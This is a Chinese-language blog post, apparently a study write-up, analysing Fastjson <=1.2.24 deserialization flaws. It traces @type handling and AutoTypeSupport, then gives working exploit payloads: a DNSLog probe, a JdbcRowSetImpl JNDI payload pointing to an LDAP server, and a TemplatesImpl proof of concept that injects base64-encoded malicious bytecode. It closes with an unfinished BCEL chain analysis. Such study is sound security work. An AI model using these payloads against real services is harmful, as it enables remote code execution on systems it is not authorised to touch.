---
title: "Java反序列化之Fastjson<=1.2.24反序列化"
date: 2025-11-18T16:33:03+08:00
summary: ""
url: "/posts/Java反序列化之Fastjson1.2.24反序列化/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 0x01前言

最近工作比较忙，给自己休整了几天，正好过两天就周末了要出门也没空学啥，所以打算把学习任务提前一下。原谅自己学习进度太慢了。。。

# 0x02Fastjson的序列化和反序列化

fastjson 是阿里巴巴开发的 java语言编写的高性能 JSON 库，用于将数据在 Json 和 Java Object之间相互转换。它没有用java的序列化机制，而是自定义了一套序列化机制。

在fastjson中提供了两种接口函数

- `JSON#toJSONString()`实现对象的序列化操作
- `JSON#parseObject()/JSON#parse()`实现对象的反序列化操作

但是对于Fastjson来说，并不是所有的java对象都能被序列化为JSON，只有JavaBean格式的对象才能被Fastjson转化成JSON格式

我们写个demo来看看序列化和反序列化流程的走向

```java
class Person {
    //使用Alt+Insert键可以快速生成属性的getter和setter方法
    public String name;
    public int age;

    public String getName() {
        System.out.println("执行了getName方法");
        return name;
    }

    public void setName(String name) {
        System.out.println("执行了setName方法");
        this.name = name;
    }

    public int getAge() {
        System.out.println("执行了getAge方法");
        return age;
    }

    public void setAge(int age) {
        System.out.println("执行了setAge方法");
        this.age = age;
    }
}
```

然后我们写个序列化和反序列化的操作

先看看序列化的操作

```java
public class Demo {
    public static void main(String[] args) {
        Person p = new Person();
        p.setName("John");
        p.setAge(22);

        //序列化
        System.out.println("----------序列化操作----------");
        String json = JSON.toJSONString(p);
        System.out.println(json);
    }
}
```

输出

```java
执行了setName方法
执行了setAge方法
----------序列化操作----------
执行了getAge方法
执行了getName方法
{"age":22,"name":"John"}
```

在toJSONString()方法处打个断点调试一下

首先进入了第一个toJSOINString方法

```java
    public static String toJSONString(Object object) {
        return toJSONString(object, emptyFilters);
    }
```

随后进入里面的另一个toJSONString()方法

```java
    public static String toJSONString(Object object, SerializeFilter[] filters, SerializerFeature... features) {
        return toJSONString(object, SerializeConfig.globalInstance, filters, (String)null, DEFAULT_GENERATE_FEATURE, features);
    }
```

然后又是一个toJSONString()方法

```java
    public static String toJSONString(Object object, // 
                                      SerializeConfig config, // 
                                      SerializeFilter[] filters, // 
                                      String dateFormat, //
                                      int defaultFeatures, // 
                                      SerializerFeature... features) {
        SerializeWriter out = new SerializeWriter(null, defaultFeatures, features);

        try {
            JSONSerializer serializer = new JSONSerializer(out, config);
            
            if (dateFormat != null && dateFormat.length() != 0) {
                serializer.setDateFormat(dateFormat);
                serializer.config(SerializerFeature.WriteDateUseDateFormat, true);
            }

            if (filters != null) {
                for (SerializeFilter filter : filters) {
                    serializer.addFilter(filter);
                }
            }

            serializer.write(object);

            return out.toString();
        } finally {
            out.close();
        }
    }
```

里面的就是具体的序列化流程了，这个就不深究了

我们再来看看反序列化流程

先看看JSON#parseObject()方法的参数

```java
    public static <T> T parseObject(String text, Class<T> clazz) {
        return parseObject(text, clazz, new Feature[0]);
    }
```

接收JSON字符串和原生类作为参数，将JSON字符串转换为对应的Java对象。

反序列化看看

```java
public class Demo {
    public static void main(String[] args) {
        Person p = new Person();
        p.setName("John");
        p.setAge(22);

        //序列化
        System.out.println("----------序列化操作----------");
        String json = JSON.toJSONString(p);
        System.out.println(json);

        //反序列化
        System.out.println("----------反序列化操作----------");
        Person unserjson = JSON.parseObject(json, Person.class);
        System.out.println(unserjson);
    }
}
```



其实到这里的话就很清楚了，在反序列化的时候，JSON#parseObject()方法会再一次调用原生类的Setter方法。

**如果我们反序列化时不指定特定的类，那么Fastjosn就默认将一个JSON字符串反序列化为一个JSONObject。需要注意的是，对于类中`private`类型的属性值，Fastjson默认不会将其序列化和反序列化。**

不过在上面的例子中可以看出，JSON#parseObject方法调用的时候我们是给它固定了原生类为Person.class，那么如果在实际环境中，有那么多的类的话，此时程序如何知道自己需要反序列化什么类的对象呢？这时候就需要用到一个注解@type了

将JSON反序列化为原始的类的方法有两种

- 第一种是在序列化的时候，在toJSONString方法中添加额外的属性`SerializerFeature.WriteClassName`，将对象类型一并序列化，我们测试一下



结果就是Fastjson在JSON字符串中添加了一个@type字段，这个用于标识对象所属的类

在反序列化的时候，parse()方法就会根据@type字段去转化成原来的类



- 第二种方法是在反序列化的时候，在`parseObject()`方法中手动指定对象的类型

# 0x02Fastjson中的@type

我们介绍一下这里的@type字段

@type是fastjson中的一个特殊注解，用于标识JSON字符串中的某个属性是哪个Java对象的类型。具体来说，**当fastjson从JSON字符串反序列化为Java对象时，如果JSON字符串中包含@type属性，fastjson会根据该属性的值来确定反序列化后的Java对象的类型。**

再来看看下面两个测试代码

```java
public class Demo {
    public static void main(String[] args) {

        //反序列化
        System.out.println("----------反序列化操作1----------");
        String  ser_json1 = "{\"name\":\"wanth3f1ag\",\"age\":22}";
        JSON.parseObject(ser_json1);

        System.out.println("----------反序列化操作2----------");
        String  ser_json2 = "{\"@type\":\"SerializeChains.FastjsonSer.Person\",\"name\":\"wanth3f1ag\",\"age\":22}";
        JSON.parseObject(ser_json2);
    }
}
```



可以看到在没有指定@type字段的时候，程序并不知道该把JSON字符串序列化成哪个类型的对象，当我们用@type属性后，就能正常的将JSON字符串按照Person类去反序列化回java对象

这样就会调用对应的setter和getter方法。

那么这里就引出一个问题，如果这里的@type没有进行特殊的处理和检查，我们是否可以利用这个属性去指定一些恶意类去实例化利用他们呢？

例如DNS请求的类

```java
{"@type":"java.net.InetAddress","val":"b3jv10.dnslog.cn"}
```



成功接收到DNS请求

那么同样的，我们的类中的getter或setter方法包含恶意代码的话也就能执行



因此，只要我们能找到一个合适的Java Bean，其setter或getter存在可控参数，则有可能造成任意命令执行。

# 0x02Fastjson中的AutoTypeSupport

AutoTypeSupport是Fastjson中的一个安全配置选项，用于控制自动类型转换的支持，在默认情况下，Fastjson>= 1.2.25会禁用自动类型转换功能，但是通过启用AutoTypeSupport，可以允许对`@type`注解的解析和自动类型转换

默认情况下autoTypeSupport为False，设置为True的方法有两种：

- 在反序列化前添加代码`ParserConfig.getGlobalInstance().setAutoTypeSupport(true);`
- JVM启动参数：`-Dfastjson.parser.autoTypeSupport=true`

然后从代码中可以看到有一个AutoType白名单，AutoType白名单设置的方法也有几种：

- 在反序列化前添加代码`ParserConfig.getGlobalInstance().addAccept(“[白名单类名]”);`
- JVM启动参数：`-Dfastjson.parser.autoTypeAccept=[白名单类名]`
- 配置文件配置，在1.2.25/1.2.26版本支持通过类路径的fastjson.properties文件来配置：`fastjson.parser.autoTypeAccept=[白名单类名]`

例如我们这里将Fastjson版本换成1.2.25并重新反序列化



发现出现了不支持的情况，然后我们启动AutoTypeSupport再试试



这样就可以了

# 0x03Fastjson <=1.2.24 Chains

我们来看最开始出现序列化的版本Fastjson<=1.2.24，在这个版本中是默认支持@type这个属性的

这个版本有三条利用链JdbcRowSetImpl利用链，Templateslmpl利用链和BCEL利用链

## JdbcRowSetImpl利用链

JdbcRowSetImpl利用链最终的结果是导致JNDI注入，需要结合JDBC的攻击手法去利用，这个是通用性最强的利用方式

`JdbcRowSetImpl`利用链的重点就在怎么调用`autoCommit`的set方法，而fastjson反序列化的特点就是会自动调用到类的set方法，所以会存在这个反序列化的问题。

我们看一下JdbcRowSetImpl类中的setAutoCommit方法



如果conn为null的话就会进入else语句，并调用到connect()方法，我们跟进看一下

```java
    private Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
            } catch (NamingException var3) {
                throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
            }
        } else {
            return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
        }
    }
```

这里的话如果配置了数据源名称（DataSourceName）时会优先通过JNDI获取连接，之后并根据是否配置了用户名和密码选择对应的连接方法。如果没有配置数据源名称的话会**通过 JDBC URL 直接获取连接**。

跟进看一下lookup方法，发现lookup方法是JNDI中访问远程服务器获取远程对象的方法，其参数为服务器地址。



然后我们看一下DataSourceName的set和get方法

```java
    public String getDataSourceName() {
        return dataSource;
    }
    public void setDataSourceName(String name) throws SQLException {

        if (name == null) {
            dataSource = null;
        } else if (name.equals("")) {
           throw new SQLException("DataSource name cannot be empty string");
        } else {
           dataSource = name;
        }

        URL = null;
    }
```

`setDataSourceName`()方法会设置`dataSource`的值

所以我们这里将dataSource赋值为我们恶意文件的远程地址。

因此我们可以构造利用链，设置`@type`的类型为jdbcRowSetlmpl类型，然后我们将dataSourceName传给lookup方法，最后再设置一下autoCommit属性，让lookup触发就行了

### payload1（LDAP+JNDI）

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;

public class jdbcRowSetlmpl {
    public static void main(String[] args) {
        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}

```

需要注意的是，这里的dataSourceName需要放在autoCommit前面，因为反序列化的顺序问题，我们需要先让setDataSourceName执行，然后再执行setautoCommit。



## TemplatesImpl利用链

**影响1.2.22-1.2.24**

这个之前讲过很多次了只不过这里的话是利用json反序列化去打的而已

```java
{
  "@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
  "_bytecodes":[恶意类的base64],
  '_name':'test',
  '_tfactory':{},
  '_outputProperties':{}
}
```

### payload2

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class POC2 {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        String base64_code = Base64.getEncoder().encodeToString(bytes);
        //System.out.println(base64_code);

        String Payload = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_bytecodes\":[\""+base64_code+"\"]," +
                "\"_name\":\"test\"," +
                "\"_tfactory\":{}," +
                "\"_outputProperties\":{}" +
                "}\n";

        JSON.parseObject(Payload, Object.class, new ParserConfig(), Feature.SupportNonPublicField);
    }
}

```

由于payload需要赋值的一些属性为`private`类型，需要在`parse()`反序列化时设置第二个参数`Feature.SupportNonPublicField`，服务端才能从JSON中恢复`private`类型的属性。

这里的话有三个问题

#### 问题1：base64编码

根据之前的学习，我们知道其实_bytecodes需要传入的是一个字节码，但是为什么这里需要用base64编码呢？

因为在反序列化的时候，会对字符串的类型进行一个判断，如果是一个base64编码的话会被解码成byte数组

我们可以调试一下



然后进入bytesValue()方法



这里的话会对传入的base64进行一个解码操作

#### 问题2：_tfactory为什么为空

在之前CC3中可以知道，`_tfactory`需要设置为一个TransformerFactoryImpl对象才能让链子走下去，但是这里为什么为空也能正常执行呢？

因为为空会新建实例进行赋值

至于_tfactory为什么会知道是TransformerFactoryImpl呢？这是在类中已经定义好了。

```java
private transient TransformerFactoryImpl _tfactory = null;
```

#### 问题3：如何调用getOutputProperties方法

对于TemplatesImpl链，我们的最终目标是调用defineClass()进行动态类加载。而该类中的`getOutputProperties()`方法能够最终走到defineClass()，并且格式也符合getter。所以构造一个`TemplatesImpl`类的JSON，并且将`_outputProperties`赋值，这样Fastjson在反序列化时就会调用`getOutputProperties()`方法了。

## BCEL利用链

这是另一个种不需要出网的链子，但是同时也需要额外的依赖

BCEL的全名是Apache Commons BCEL，属于Apache Commons项目下的一个子项目。BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。

### 依赖

只需要有JDK自带的dbcp或tomcat-dbcp的依赖即可

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.20</version>
</dependency>
```

BCEL这个包中有个类com.sun.org.apache.bcel.internal.util.ClassLoader



### ClassLoader#loadClass分析

ClassLoader类里面有一个loadClass方法，它重写了Java内置的ClassLoader#loadClass()方法。

我们跟进看一下

```java
  protected Class loadClass(String class_name, boolean resolve)
    throws ClassNotFoundException
  {
    Class cl = null;

    /* First try: lookup hash table.
     */
    if((cl=(Class)classes.get(class_name)) == null) {
      /* Second try: Load system class using system class loader. You better
       * don't mess around with them.
       */
      for(int i=0; i < ignored_packages.length; i++) {
        if(class_name.startsWith(ignored_packages[i])) {
          cl = deferTo.loadClass(class_name);
          break;
        }
      }

      if(cl == null) {
        JavaClass clazz = null;

        /* Third try: Special request?
         */
        if(class_name.indexOf("$$BCEL$$") >= 0)
          clazz = createClass(class_name);
        else { // Fourth try: Load classes via repository
          if ((clazz = repository.loadClass(class_name)) != null) {
            clazz = modifyClass(clazz);
          }
          else
            throw new ClassNotFoundException(class_name);
        }

        if(clazz != null) {
          byte[] bytes  = clazz.getBytes();
          cl = defineClass(class_name, bytes, 0, bytes.length);
        } else // Fourth try: Use default class loader
          cl = Class.forName(class_name);
      }

      if(resolve)
        resolveClass(cl);
    }

    classes.put(class_name, cl);

    return cl;
  }
```

前面的就不说了，都是一些缓存中加载和系统类加载的手法，重点在于这段代码



如果传入的类名包含`$$BCEL$$`，就调用createClass函数创建该类



subString()截取`$$BCEL$$`后面的内容作为真实的类名并调用Utility.decode进行相应的解码并最终返回改字节码的bytes数组。

随后创建Parser解析器并调用parse()方法进行解析，生成JavaClass对象并返回clazz

